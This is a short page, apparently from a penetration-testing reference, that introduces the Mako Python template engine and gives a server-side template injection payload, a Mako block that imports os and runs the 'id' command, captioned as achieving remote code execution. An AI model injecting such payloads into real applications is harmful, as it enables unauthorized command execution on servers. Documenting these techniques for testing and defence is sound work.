

# Mako

[Mako](https://www.makotemplates.org/) is a Python template library that compiles into Python modules for high performance. It uses a non-XML syntax inspired by Django, Jinja2, Cheetah, and others. Mako functions as an embedded Python language, offering a simple, flexible model with strong support for Python's calling and scoping semantics.

## SSTI

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

<figure><figcaption><p>Figure 1: Achieving RCE through a SSTI flaw on a Mako templating engine.</p></figcaption></figure>
